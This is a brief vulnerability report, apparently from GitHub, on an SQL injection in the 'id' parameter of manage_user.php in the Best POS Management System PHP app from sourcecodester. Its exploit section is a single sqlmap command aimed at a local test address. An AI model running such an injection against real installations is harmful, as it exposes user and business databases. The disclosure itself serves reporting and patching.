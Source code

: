 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223220119515](C:\markdown\images\image-20230223220119515.png)

exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/manage_user.php?id=1"
```

![image-20230223220036687](C:\markdown\images\image-20230223220036687.png)